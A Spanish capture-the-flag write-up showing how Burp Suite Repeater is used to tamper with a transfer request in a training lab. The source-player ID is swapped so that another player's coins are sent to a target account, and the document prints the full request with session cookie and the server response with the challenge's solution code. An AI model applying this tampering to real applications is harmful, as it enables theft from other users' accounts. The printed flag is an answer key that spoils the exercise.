

# Manipulación Manual de Peticiones (Uso del Repeater)

## Contexto del Laboratorio: Aldeas Inseguras
El objetivo de este laboratorio es lograrque nuestro amigo Pedro llegue a las 5000 monedas de oro. El desafío radica en que nuestra cuenta no posee los fondos suficientes para realizar esta transacción de forma legítima.

## Análisis y Explotación mediante Burp Suite Repeater
Tras interceptar el envio de mercancia, observamos que en el cuerpo de la petición (Body), se identificaron los parámetros que controlan la transacción: `id_jugador_origen`, `select_jugador_destino` y `txt_cantidad`.

**La vulnerabilidad:** La aplicación confía ciegamente en el parámetro `id_jugador_origen` enviado por el cliente sin validar en el backend si ese ID realmente pertenece al usuario que inició la sesión.

**La manipulación:** Se modificó manualmente el Body de la petición para:
1. Cambiar el `id_jugador_origen` por el de otro jugador (expuestos en los parametros del HTML) para que los fondos se descuenten de su cuenta.
2. Definir el `select_jugador_destino` al ID de Pedro (`32568`).
3. Alterar el parámetro `txt_cantidad` a las monedas necesarias, superando la meta requerida.

### Petición Modificada (Request)
```http
POST /src/ctl/enviar_mercancia.ctl.php HTTP/2
Host: chl-7a0ece0b-ed13-4b99-9ee9-a58e2f318759-aldeas-inseguras.softwareseguro.com.ar
Cookie: PHPSESSID=caaa7b265b78f08ab3cf47495a366e8d
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:157.0) Gecko/20100101 Firefox/157.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: es-ES,es;q=0.9,en-US;q=0.8,en;q=0.7
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 70
Origin: https://chl-7a0ece0b-ed13-4b99-9ee9-a58e2f318759-aldeas-inseguras.softwareseguro.com.ar
Referer: https://chl-7a0ece0b-ed13-4b99-9ee9-a58e2f318759-aldeas-inseguras.softwareseguro.com.ar/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

id_jugador_origen=22358&select_jugador_destino=32568&txt_cantidad=5021
```

### Respuesta del Servidor (Response)

```html
<div class="panel-footer exito text-center">
    <h4><p>Has superado el desafío. Código: <strong>4ddbc953186051c75</strong></p></h4>
</div>
```

### Evidencia
